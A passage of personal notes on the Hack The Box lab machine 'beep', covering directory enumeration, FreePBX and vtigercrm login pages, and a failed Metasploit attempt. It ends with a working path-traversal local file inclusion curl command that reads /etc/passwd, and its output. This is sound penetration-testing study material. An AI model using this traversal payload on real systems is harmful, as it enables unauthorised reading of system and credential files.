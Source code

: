 ```bash
/.html.               (Status: 403) [Size: 284]
/.html.html.php       (Status: 403) [Size: 292]
/.html.html           (Status: 403) [Size: 288]
/recordings           (Status: 301) [Size: 314] [--> https://10.10.10.7/recordings/]
/.htpasswds           (Status: 403) [Size: 288]
/.htpasswds.php       (Status: 403) [Size: 292]
/.htm.                (Status: 403) [Size: 283]
/.htm..php            (Status: 403) [Size: 287]
/vtigercrm            (Status: 301) [Size: 313] [--> https://10.10.10.7/vtigercrm/]
<SNIP..>
```
- Gobuster identifies a `/admin` directory
- Navigating to this directory i get presented with an authenication prompt
![[Pasted image 20220103170429.png]]
- Default credentials again do not work, might try brute forcing later if I dont have success anywhere else
- Hitting cancel directs us to `/admin/config.php` and says that we are unauthorized
- We have some information disclosure on this page
![[Pasted image 20220103170632.png]]
- Clicking on the recording tab takes us to yet another page
![[Pasted image 20220103170758.png]]
- This page says we are using FreePBX version 2.5 which is different to the last page which said we were using v 2.8.1.4
- Using gobuster on this page shows that a directory `/modules` exitst
- Navigating to this shows several files containg php code
- Going back to the nmap scan and notice another http service listening on port 10000
- Navigating to this page we are presented with yet another login page
- After atempting to login with default credentials, I get an error message saying that my IP has been blocked due to too many authentication faliures
## Exploitation
- With a lot of things to enumerate, I start with googling around for exploits for freepbx 2.8.1.4 exploits as I dont have a version number for elastix running on port 443
- I find a metasploit module
- Running the module against the server does not result in a shell as meta sploit error saying exploit completed but no shell was created
![[Pasted image 20220103182605.png]]
- Back to enumeration
## More enumeration
- After reviewing the gobuster scan, the result `/vtigercrm` peaks my interest
- Navigating to this page shows yet another login page
![[Pasted image 20220103194356.png]]
- I notice the version the software and version number in the bottom left and throw that into google
- I find [this exploit](https://www.exploit-db.com/exploits/18770) on exploit db, which is a local file inclusion exploit
- The LFI works 
```bash
┌──(tom㉿acer-computer)-[~/htb/beep]
└─$ curl "https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00" -k
root:x:0:0:root:/root:/bin/bash
<SNIP...>
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
<SNIP..>
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
<SNIP...>
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
<SNIP..>
```